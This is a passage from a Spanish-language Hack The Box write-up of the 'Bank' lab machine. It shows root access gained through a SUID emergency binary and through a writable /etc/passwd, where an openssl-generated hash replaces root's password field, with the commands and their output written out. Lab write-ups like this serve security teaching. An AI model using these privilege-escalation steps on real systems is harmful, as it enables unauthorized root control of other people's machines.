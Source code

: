 ```bash
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
# whoami
root
# cat /root/root.txt
66b882036c79fc**********************
```

### Writable Passwd File

Por otro lado, otra manera de realizar el PrivEsc en esta máquina es la siguiente.

Revisando los archivos que teníamos capacidad de escritura, nos encontramos que podíamos escribir el archivo `/etc/passwd`.

```bash
www-data@bank:/tmp$ find /etc -writable 2>/dev/null
/etc/passwd
```

{% embed url="https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/" %}

Por lo tanto, generamos una contraseña a través de `openssl` y verificamos que en este caso, el usuario`root` no disponía de ninguna contraseña asignada. Con lo cual, podemos añadir un nuevo usuario, o remplazar la `x` por el valor de nuestra contraseña generada para que el usuario`root` disponga de nuestras credenciales.

```bash
www-data@bank:/tmp$ openssl passwd -1 gzzcoo
$1$eb5EWdLO$tyxkHG/AFdZsl8iK62EQu/

www-data@bank:/tmp$ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
```

Modificamos el archivo `/etc/passwd` y le asignamos al usuario`root` nuestras credenciales generadas, verificamos que los cambios se han guardado correctamente.

```bash
www-data@bank:/tmp$ cat /etc/passwd
root:$1$eb5EWdLO$tyxkHG/AFdZsl8iK62EQu/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Migramos al usuario `root` e introducimos nuestras credenciales asignadas. Verificamos el acceso como usuario`root` y la flag **root.txt**.

```bash
www-data@bank:/tmp$ su root
Password: 
root@bank:/tmp# whoami
root
root@bank:/tmp# cat /root/root.txt 
66b882036c**********************
```
